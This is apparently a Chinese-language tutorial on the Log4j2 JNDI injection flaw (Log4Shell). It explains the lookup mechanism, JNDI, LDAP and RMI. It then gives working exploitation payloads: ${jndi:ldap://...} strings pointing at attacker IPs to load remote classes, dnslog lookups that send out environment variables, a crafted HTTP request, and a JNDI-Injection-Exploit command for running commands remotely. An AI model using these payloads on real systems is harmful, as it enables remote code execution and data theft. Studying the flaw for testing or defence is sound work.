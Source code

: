 Log4j2 是 Apache 软件基金会下的一个开源的基于 Java 的日志记录工具。Log4j2 是一个 Log4j 1.x 的重写。并且引入了大量丰富的特性。该日志框架被大量用于业务系统开发，用来记录日志信息。
由于其优异的性能而被广泛的应用于各种常见的 Web 服务中。

^
## **JNDI注入**
JNDI是对各种访问目录服务的逻辑进行了再封装。
JNDI提供了一个通用的接口，使得Java应用程序可以查找和访问各种不同类型的命名服务和目录服务，包括文件系统、配置文件、DNS、LDAP服务器、RMI服务器等。
^
JNDI注入主要是用过下载远程class，来运行恶意代码。JNDI注入攻击时常用的就是通过RMI和LDAP两种服务，验证时也可以使用dns协议。
>LDAP（轻型目录访问协议）：是一个开放的，中立的，工业标准的应用协议，通过IP协议提供访问控制和维护分布式信息的目录信息。目录是一个为查询、浏览和搜索而优化的专业分布式数据库，它呈树状结构组织数据，就好象Linux/Unix系统中的文件目录一样。
>RMI（Java远程方法调用）：它是一种机制，能够让在某个java虚拟机上的对象调用另一个Java虚拟机 的对象的方法。
^
## **Log4j2漏洞原理**
在java中最常用的日志框架是log4j2和logback，其中log4j2支持lookup功能（查找搜索），例如开发者想在日志中打印今天的日期，则只需要输出 ${data:MM-dd-yy}，此时log4j会将${}中包裹的内容单独处理，将它识别为日期查找，然后将该表达式替换为今天的日期内容输出为"08-22-2022”，这样做就不需要开发者自己去编写查找日期的代码。然而lookup功能也允许在日志配置中引用远程JNDI资源，用来动态获取配置信息，比如从远程服务器获取信息字节流。
Log4j2 漏洞利用：攻击者使用 ${} 关键标识符触发 JNDI 注入漏洞，当程序将用户输入的数据进行日志记录时，即可触发此漏洞。此时攻击者构造一个特殊的JNDI URL，该URL指向一个远程服务器上的恶意LDAP服务。这个LDAP服务会返回一个恶意的类路径（类加载器链），最终导致远程服务器上的恶意类被加载和执行。
支持版本：2.0<=Log4j2<=2.14.1
^
## **漏洞利用和验证**
漏洞验证：
将用户名记录了日志中，
将用户的发言消息记录了日志中等
```
如：文件上传的名字记录日志
java代码：logger.info("获取图片原始文件名：{}”，originalFileName);
抓包把文件名改为：filename="${jndi:dns://***.dnslog.cn}"
成功获取DNSlog
获取java环境变量的操作系统OS：filename="${jndi:dns://${env:OS}.vmfp3r.dnslog.cn}"
```

对应的请求包中对应内容改为：
```
${jndi:ldap://183.145.120.145/Click1/Exec}  
//去请求一个LDAP服务器，域名的话也会请求DNS

${jndi:dns://***.dnslog.cn/exp}  
 //如果tcp不出网ldap失效，直接用dns协议(jndi支持dns://)去实现dnslog。


案例场景：
Accept-Language: zh-cN,zh;q=0.9
X-Api-Version: ${jndi:ldap://test.x****r.ceye.io/exp}
Content-Type: application/x-www-form-urlencoded
Content-Length:64
w-------------------+
username=admin${jndi : dns: //test.x****r.ceye.io/exp}
```
命令执行漏洞利用：
JNDI利用工具：LDAP服务器
工具使用方法参考<https://www.freebuf.com/vuls/337333.html>
实现：${jndi:ldap://127.0.0.1:1389/Basic/Command/你要执行的命令}

^
JNDI利用工具：JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar
jndi进行命令执行，反弹shell：<https://blog.csdn.net/m0_74294234/article/details/137188160>
支持同时启动ldap服务和rmi服务。
```
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "calc.exe" -A 47.109.58.205

${jndi:rmi://192.168.1.8:1099/yfwrr7}
${jndi:ldap://192.168.1.8:2113/akndj}
```

^
**log4j2不出网：**
rmi和ladp都是走的tcp协议，如果有网络防火墙tcp不出网，还想利用，将其转成icmp协议出网再转回来。
验证则直接用dns协议(jndi支持dns://)去实现dnslog：${jndi:dns://***.dnslog.cn/exp} 。

^
复现：
<https://www.freebuf.com/articles/web/341857.html>